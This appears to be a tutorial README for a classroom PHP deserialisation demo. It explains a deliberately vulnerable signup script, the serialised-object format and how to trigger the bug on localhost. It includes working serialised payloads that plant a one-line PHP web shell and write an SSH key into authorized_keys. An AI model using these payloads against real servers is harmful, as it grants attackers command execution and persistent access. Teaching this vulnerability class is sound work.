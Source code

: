 # Deserialisation Demo
I wrote this demo for our [Advanced Web Hacking](https://shefesh.com/assets/wiki/Advanced%20Web%20Hacking%20-%20PDF.pdf) session.

It is a demo of a very simple PHP Deserialisation Vulnerability. You can view more about Deserialisation in the slides linked above.

## Demo Code

The repository is available at: [https://github.com/Twigonometry/Deserialisation-Demo](https://github.com/Twigonometry/Deserialisation-Demo)

### The Vulnerable Code

#### unsafe.php

This represents a simple web application that constructs a `SignupForm` object and writes to a file when the `__destruct()` [magic method](https://www.php.net/manual/en/language.oop5.magic.php) is called. It accepts the GET parameter `username`, which it uses to write a username to a list of users who have signed up. It does this using the class' `parse_username()` and `__destruct()` functions.

#### The Vulnerability

The class variables `$outfile` and `$username_string` are normally set by the `parse_username()` method. However, an attacker can craft a `SignupForm` object manually and set these variables to whatever they like. If this is passed to the `username` GET parameter it is deserialised and the `__destruct` method is automatically called. This skips the `parse_username()` method and overrides the variables, meaning their attacker-controlled values are used in the `file_put_contents()` call.

The vulnerability only exists because untrusted data (i.e. user input) is passed directly to the `unserialize()` function. Remove this line, and the vulnerability is fixed. In fact, it's not even needed to make this program work - it is there just to teach about the mechanics of the vulnerability, but there may be situations where `unserialize()` may have a genuine use case - for example, frameworks like Laravel serialise PHP Objects that represent users. In this case, developers must ensure that no untrusted data is involved in this deserialisation, either directly or 'upstream' when data is passed from a database or similar connected service.

### The Exploit

#### generate-object.php

This is a recreation of the class being used on the web application, as could be created by an attacker with a 'whitebox' view of the web app's `unsafe.php` file.

It creates an instance of the class, with preset values that are used when the object is deserialised. The `$username_string` variable determines the contents that will be written to the file, and the `$outfile` variable determines the path (within the web server's directory). Change these to change the behaviour of your payload.

By default, the object looks like this:

```
O:10:"SignupForm":2:{s:7:"outfile";s:10:"gotcha.txt";s:15:"username_string";s:25:"malicious stuff goes here";}
```

The syntax is as follows:
- `O` tells us the type is an 'object'
- `10` tells us the character length of the class name `SignupForm`
- `2` tells us the number of variables within the object
- Within the curly brackets `{ }` are the object variables. They follow a similar structure, with each one having a type (`s` meaning 'string'), a variable name and length (`7:"outfile"`), and a value (a string (`s`), `10` characters long, called `"gotcha.txt"`). The variable names and values, and each pair thereof, are separated by semicolons `;`.

This will write the string "malicious stuff goes here" to the `gotcha.txt` file. Pretty harmless, but it should show you how the exploit works!

You can, of course, create these manually - but counting the length of a load of variable names is a pain and it's easy to make a syntax mistake!

#### Triggering the Attack

A serialised object must be generated (see `generate-object.php`) and then passed to the `username` GET parameter. To test this locally, run your webserver:

```
$ php -S localhost:5000
```

Change your payload by editing the `$username_string` and `$outfile` variables in `generate-object.php`, then make a request to get your object:

```
$ curl localhost:5000/generate-object.php
```

Then make a request to the page, passing your object to the `username` GET parameter:

```
http://localhost:5000/unsafe.php?username={SERIALISED OBJECT HERE}
```

*Note:* If you use curl, bash may throw a fit at your curly brackets. You can either visit the URL in your browser, or use the `--globoff` flag to [escape the brackets](https://stackoverflow.com/questions/8333920/passing-a-url-with-brackets-to-curl)

Here is the request we made, using our malicious object:

```
http://localhost:5000/unsafe.php?username=O:10:"SignupForm":2:{s:7:"outfile";s:10:"gotcha.txt";s:15:"username_string";s:25:"malicious stuff goes here";}
```

The `gotcha.txt` file should now appear in the webserver directory!

*Another Note:* Remember, anything you put in your payload happens on *your* machine - if someone monitors your installation directory for naughty `.txt` files and you write something you shouldn't have, don't come crying to us.

#### Exploit Payloads

Our example exploit writes something fairly harmless to `gotcha.txt`, demonstrating the vulnerability. However, there are lots of ways to exploit arbitrary file write, even within the constraints of the current directory. Here are a couple of examples:

**Write a Web Shell**

This won't necessarily allow you to escalate priveleges, but it lets you perform more actions on the box besides writing to files. You will have the permissions of the user who is running the web server (don't run your web servers as root!)

Here's the serialised object for a cheeky one-line PHP shell:

```
O:10:"SignupForm":2:{s:7:"outfile";s:7:"cmd.php";s:15:"username_string";s:29:"<?php system($_GET['cmd']);?>";}
```

If you're editing the `$username_string` variable here, you may need to escape the `$` character as follows: `public $username_string = "<?php system(\$_GET['cmd']);?>";`

**Write an SSH key**

The file location is limited by the `__DIR__` prefix. However, if for some ungodly reason this webserver was hosted in a user's home directory, a payload such as the following could write an SSH key to the `.ssh/authorized_keys` file. Like the above, this doesn't escalate your priveleges but grants you a more interactive shell.

Here's the object:

```
O:10:"SignupForm":2:{s:7:"outfile";s:20:".ssh/authorized_keys";s:15:"username_string";s:20:"YOUR ID_RSA.pub HERE";}
```

I shouldn't have to say this, but "YOUR ID_RSA.pub HERE" is not a valid SSH key. If you want this to work, make sure to replace it (ideally in the `generate-object.php` file itself, so it calculates the length for you)

## Acknowledgements

Thanks to a recent Hack the Box for the inspiration... I won't say which, as it's live! But now you know how this works, go out and find it and root it...

# Tags

#project 